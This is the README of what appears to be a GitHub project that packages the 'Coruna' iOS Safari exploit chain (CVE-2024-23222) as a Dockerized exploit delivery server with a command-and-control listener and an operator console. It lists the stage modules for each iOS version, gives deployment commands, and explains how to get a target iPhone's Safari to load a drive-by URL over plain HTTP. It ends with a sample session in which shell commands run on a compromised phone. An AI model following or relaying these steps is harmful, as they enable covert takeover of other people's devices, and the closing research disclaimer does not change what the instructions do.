

# iOS Orchestrator — Coruna (CVE-2024-23222)

[](docs/DOCKER.md)
[](requirements.txt)
[](#exploit-chain-coruna)
[](docs/CVE-2024-23222_ANALYSIS.md)
[](#disclaimer)

A fully containerized **HTTP exploit delivery server**, **C2 (Command and Control) listener**, and **interactive operator console** for the **Coruna** exploit chain (CVE-2024-23222). 

Targets Safari on **iOS 13.0 – 17.2.1**. Drive-by only: the target opens a single URL in Safari; no reverse shell, custom app, or sideloading is required for the initial browser stage.

---

## Architecture Overview



---

## Features

- **Dockerized & Production-Ready**: Complete `Dockerfile` and `docker-compose.yml` supporting non-root execution (`coruna` UID `10001`), Linux capabilities (`cap_net_bind_service`), built-in healthchecks, and graceful SIGTERM handling.
- **Dual Execution Modes**: Seamlessly operates in interactive console mode (`docker run -it`) or background daemon mode (`docker compose up -d`).
- **Complete Stage 1-3 Exploit Pipeline**:
  - **Stage 1 (Browser Primitive)**: WebKit JIT compiler type confusion (CVE-2024-23222) establishing WASM-backed arbitrary read/write.
  - **Stage 2 (PAC Bypass)**: Intl.Segmenter / BreakIterator pointer authentication bypass for ARM64e devices.
  - **Stage 3 (Sandbox Escape & Injection)**: Dynamic Mach-O loader injecting `bootstrap.dylib` into the WebContent process.
- **Multi-Version Coverage**: Supports iOS 13.0 through 17.2.1 across Cassowary, Terrorbird, Bluebird, Jacurutu, and Buffout.
- **MIME & Network Tuning**: Automatic enforcement of Safari-mandated `application/javascript` headers and TLS handshake suppression on HTTP ports.

---

## Exploit Chain Matrix

Version selection is handled dynamically by `platform_module.js` based on device user-agent headers.

### Stage 1 (Browser Primitives)

| iOS Version Range | Version Flag | Exploit Module | Status |
|---|---|---|:---:|
| **16.6 – 17.2.1** | `JtEUci` | `Stage1_16.6_17.2.1_cassowary.js` | ✅ Included |
| **16.2 – 16.5.1** | `KeCRDQ` | `Stage1_16.2_16.5.1_terrorbird.js` | ✅ Included |
| **15.6 – 16.1.2** | `ShQCsB` | `Stage1_15.6_16.1.2_bluebird.js` | ✅ Included |
| **15.2 – 15.5**   | `RbKS6p` | `Stage1_15.2_15.5_jacurutu.js` | ✅ Included |
| **13.0 – 15.1.1** | `mmrZ0r` | `Stage1_13.0_15.1.1_buffout.js` | ✅ Included |

### Stage 2 (PAC Bypass)

| iOS Version Range | Version Flag | Bypass Technique | Status |
|---|---|---|:---:|
| **17.0 – 17.2.1**  | `wF8NpI` | `seedbell_pre` → `seedbell` (17.x) | ✅ Included |
| **16.6 – 16.7.12** | `LJ1EuL` | `seedbell_pre` → `seedbell` (16.6–16.7) | ✅ Included |
| **16.3 – 16.5.1**  | `CpDW_T` | `seedbell` (16.3–16.5.1) | ✅ Included |
| **15.0 – 16.2**    | `IqxL92` | `breezy15` | ✅ Included |
| **13.0 – 14.x**    | *(default)* | `breezy` | ✅ Included |

### Stage 3 (Sandbox Escape & Payloads)

| Condition | Module | Payload Mechanism |
|---|---|---|
| `wC3yaB` flag set & PAC OK | `Stage3_VariantA.js` | Loads `payloads/bootstrap.dylib` & `manifest.json` |
| Default / Fallback | `Stage3_VariantB.js` | Loads `payloads/bootstrap.dylib` & `manifest.json` |

---

## Quick Start with Docker

For a detailed deployment manual, see the [Docker Guide](docs/DOCKER.md).

### 1. Run with Docker Compose

```bash
# Clone the repository
git clone https://github.com/bhideki/coruna.git
cd coruna

# Option A: Start in background (Daemon Mode)
docker compose up -d --build

# Option B: Start directly into the interactive C2 console
docker compose run --rm coruna
```

### 2. Run with Docker CLI

```bash
# Build image
docker build -t coruna:latest .

# Run container
docker run -d \
  --name coruna \
  -p 80:80 \
  -p 8080:8080 \
  --restart unless-stopped \
  coruna:latest
```

### 3. Attach to the C2 Console

If the container was started in the background:
```bash
docker attach coruna
```
*(To detach without stopping the container, press `Ctrl+P` followed by `Ctrl+Q`)*.

---

## Local Setup (Without Docker)

### Requirements

- **Python 3.8+**
- Virtual environment (`venv`)

### Installation & Run

```bash
# Create and activate virtual environment
python3 -m venv .venv
source .venv/bin/activate

# Install dependencies
pip install -r requirements.txt

# Run orchestrator
python3 main.py
```

---

## Configuration Reference

Settings can be defined using environment variables (recommended for containers) or `config.json`.

| Setting | Environment Variable | Default | Description |
|---|---|---|---|
| `web_server_ip` | `WEB_SERVER_IP` | `0.0.0.0` | Bind IP for HTTP exploit web server |
| `web_server_port` | `WEB_SERVER_PORT` | `80` | Port for HTTP exploit web server |
| `c2_bind` | `C2_BIND` | `0.0.0.0` | Bind IP for C2 TCP listener |
| `c2_port` | `C2_PORT` | `8080` | Port for C2 TCP listener |
| `exploit_templates_dir` | `EXPLOIT_TEMPLATES_DIR` | `exploits/` | Path to exploit files directory |
| `static_files_dir` | `STATIC_FILES_DIR` | `web_server/static/` | Path for optional static assets |
| — | `CORUNA_HEADLESS` | `0` | Set `1` to force daemon mode without interactive stdin |

For complete schema details, see [API & Console Reference](docs/API_AND_CONSOLE.md).

---

## Target Delivery & Interactive Console

### 1. Triggering the Exploit

1. Connect the target iPhone to the same network or ensure your VPS IP is reachable.
2. In **Safari**, open:
   ```text
   http://YOUR_SERVER_IP/coruna/group.html
   ```
   > [!IMPORTANT]
   > Use **plain HTTP** on port 80. Do not use HTTPS; Safari rejects untrusted TLS certificates during drive-by attacks without profile installation.

### 2. Using the Interactive Console

Once the target finishes Stage 3, a session is established on the C2 listener:

```text
[*] Nova sessão 4f8b1a92 — 192.168.1.50:54210

(coruna)> list
  [4f8b1a92] 192.168.1.50 2026-10-31 21:40:00

(coruna)> use 4f8b1a92

[*] Conectado a 192.168.1.50 (sessão 4f8b1a92). Digite 'exit' ou 'back' para voltar.

(shell)> id
uid=501(mobile) gid=501(mobile) groups=501(mobile)

(shell)> uname -a
Darwin iPhone 21.3.0 Darwin Kernel Version 21.3.0: Wed Jan  5 21:37:58 PST 2022; root:xnu-8019.80.4~1/RELEASE_ARM64_T8015 iPhone10,6

(shell)> exit
[*] Voltando ao menu principal.

(coruna)> quit
```

---

## Project Layout

```text
coruna/
├── Dockerfile                  # Production-ready non-root Docker image
├── docker-compose.yml          # Compose orchestration file
├── compose.yaml                # Modern Compose spec alias
├── docker-entrypoint.sh        # Container entrypoint script
├── .dockerignore               # Optimized Docker build context
├── .env.example                # Environment variables template
├── requirements.txt            # Python dependencies (aiohttp)
├── main.py                     # Entry point: Web server, C2 listener & console
├── config.json.example         # Example configuration file
├── core/
│   └── config_manager.py       # Configuration loader with env var support
├── web_server/
│   ├── exploit_http_server.py  # Async aiohttp server with Safari MIME enforcement
│   └── static/                 # Static assets directory
├── c2_comms/
│   ├── c2_server.py            # Async TCP C2 listener & session dispatcher
│   └── session.py              # Interactive session and I/O buffer management
├── exploits/
│   └── coruna/                 # Exploit chain components
│       ├── group.html          # Entry loader and primitive normalizer
│       ├── platform_module.js  # Device fingerprinting and offset selector
│       ├── utility_module.js   # BigInt and cryptographic helpers
│       ├── Stage1_*.js         # Browser primitives (cassowary, terrorbird, etc.)
│       ├── Stage2_*.js         # PAC bypass modules (seedbell, breezy, etc.)
│       ├── Stage3_Variant*.js  # Sandbox escape and Mach-O injector
│       └── payloads/           # bootstrap.dylib, manifest.json & hash binaries
└── docs/
    ├── DOCKER.md               # Dedicated Docker deployment guide
    ├── ARCHITECTURE.md         # Exploit chain and system architecture
    ├── API_AND_CONSOLE.md      # Configuration and console command manual
    ├── CVE-2024-23222_ANALYSIS.md # Technical vulnerability analysis
    ├── REPOS_ANALYSIS.md       # Upstream comparison and compatibility fixes
    └── PAYLOAD_AND_REPOS_DIFF.md # Payload inventory and analysis
```

---

## Documentation Links

- [Docker Deployment Guide](docs/DOCKER.md)
- [Architecture & Exploit Deep Dive](docs/ARCHITECTURE.md)
- [API, Configuration & Console Reference](docs/API_AND_CONSOLE.md)
- [CVE-2024-23222 Vulnerability Analysis](docs/CVE-2024-23222_ANALYSIS.md)
- [Payload Analysis & Differential](docs/PAYLOAD_AND_REPOS_DIFF.md)
- [Upstream Repository Comparison](docs/REPOS_ANALYSIS.md)

---

## Credits & References

- Coruna exploit chain and payloads: [khanhduytran0/coruna](https://github.com/khanhduytran0/coruna)
- Analysis & writeups: [c/side: Inside Coruna](https://cside.com/blog/inside-coruna-web-script-ios-exploit)
- Upstream reconstruction research: [zeroxjf/iOS-Coruna-Reconstruction](https://github.com/zeroxjf/iOS-Coruna-Reconstruction)

---

## Disclaimer

This repository is provided strictly for **authorized security research, vulnerability verification, and educational purposes**. The vulnerabilities targeted have been patched by Apple in iOS 17.3 and point releases. Never deploy or test this software on devices or networks without explicit, documented permission.
